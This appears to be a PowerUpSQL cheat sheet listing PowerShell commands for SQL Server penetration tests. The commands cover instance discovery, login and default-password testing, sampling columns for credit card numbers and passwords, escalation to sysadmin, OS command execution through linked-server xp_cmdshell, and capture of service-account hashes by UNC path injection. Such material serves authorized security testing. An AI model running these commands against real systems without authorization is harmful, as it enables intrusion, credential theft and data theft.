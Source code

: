 Below is a list of some of the most common PowerUpSQL functions used during pentests.

## SQL Server Discovery Cheats
|Description|Command|
|:--------------------------------|:-----------|
|Discover Local SQL Server Instances |`Get-SQLInstanceLocal -Verbose`
|Discover Remote SQL Server Instances | `Get-SQLInstanceScanUDPThreaded -Verbose -ComputerName SQLServer1` <br>or<br>`Get-SQLInstanceFile -FilePath c:\temp\computers.txt | Get-SQLInstanceScanUDPThreaded -Verbose`
|Discover domain SQL Server Instances | `Get-SQLInstanceDomain -Verbose`
|Discover domain SQL Server Instance using alternative domain credentials|`runas /noprofile /netonly /user:domain\user PowerShell.exe`<br>`Get-SQLInstanceDomain`
|List SQL Servers using a specific domain account| `Get-SQLInstanceDomain -Verbose -DomainAccount SQLSvc`

## SQL Server Login Test Cheats
|Description|Command|
|:--------------------------------|:-----------|
|Get a list of domain SQL servers that can be logged into with a provided SQL Server login|`$Targets = Get-SQLInstanceDomain -Verbose | Get-SQLConnectionTestThreaded -Verbose -Threads 10 -username testuser -password testpass | Where-Object {$_.Status -like "Accessible"}`<br>`$Targets`
|Get a list of domain SQL servers that can be logged into with the current domain account|`$Targets = Get-SQLInstanceDomain -Verbose | Get-SQLConnectionTestThreaded -Verbose -Threads 10 | Where-Object {$_.Status -like "Accessible"}`<br>`$Targets`
|Get a list of domain SQL servers that can be logged into using an alternative domain account | `runas /noprofile /netonly /user:domain\user PowerShell.exe`<Br>`Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose -Threads 15`
| Discover domain SQL Servers and determine if they are configured with default passwords based on the instance name | `Get-SQLInstanceDomain | Get-SQLServerLoginDefaultPw -Verbose`

## Data Targeting Cheats
|Description|Command|
|:--------------------------------|:-----------|
|Execute arbitrary query|`$Targets | Get-SQLQuery -Verbose Query "Select @@version"`
|Grab basic server information | `$Targets | Get-SQLServerInfoThreaded -Threads 10 -Verbose`
|Grab list of non-default databases | `$Targets | Get-SQLDatabaseThreaded –Verbose –Threads 10 -NoDefaults`
|Dump common information from server to files|`Invoke-SQLDumpInfo -Verbose -Instance SQLSERVER1\Instance1 -csv`
|Find sensitive data based on column name |`$Targets |  Get-SQLColumnSampleDataThreaded –Verbose –Threads 10 –Keyword "credit,ssn,password" –SampleSize 2 –ValidateCC –NoDefaults`
|Find sensitive data based on column name, but only target databases with transparent encryption|`$Targets | Get-SQLDatabaseThreaded –Verbose –Threads 10 -NoDefaults | Where-Object {$_.is_encrypted –eq “TRUE”} | Get-SQLColumnSampleDataThreaded –Verbose –Threads 10 –Keyword “card, password” –SampleSize 2 –ValidateCC -NoDefaults`

## Privilege Escalation Cheats
|Description|Command|
|:--------------------------------|:-----------|
|Audit for Issues| `Invoke-SQLAudit -Verbose -Instance SQLServer1`
|Escalate to sysadmin | `Invoke-SQLEscalatePriv -Verbose -Instance SQLServer1`
|Execute OS commands | `$Targets | Invoke-SQLOSCmd -Verbose -Command "Whoami" -Threads 10`
|Crawl database links|`Import-Module C:\PowerUpSQL-master\scripts\Get-SqlServerLinkCrawl.ps1`<br>`Get-SqlCrawl -Verbose -Instance SQLSERVER1\Instance1` 
|Crawl database links and execute query|`Import-Module C:\PowerUpSQL-master\scripts\Get-SqlServerLinkCrawl.ps1` <br> `Get-SQLCrawl -instance "SQLSERVER1\Instance1" -Query "select name from master..sysdatabases"`
|Crawl database links and execute OS command|`Import-Module C:\PowerUpSQL-master\scripts\Get-SqlServerLinkCrawl.ps1` <br> `Get-SQLCrawl -instance "SQLSERVER1\Instance1" -Query "exec master..xp_cmdshell 'whoami'"`
|UNC path injection |`Import-Module C:\PowerUpSQL-master\PowerUpSQL.psd1` <br> `Import-Module C:\PowerUpSQL-master\Scripts\Pending\Get-SQLServiceAccountPwHashes.ps1` <br> `Import-Module C:\PowerUpSQL-master\Scripts\3rdparty\Inveigh.ps1` <br> `Get-SQLServiceAccountPwHashes -Verbose -TimeOut 2 -CaptureIp 10.1.1.1`

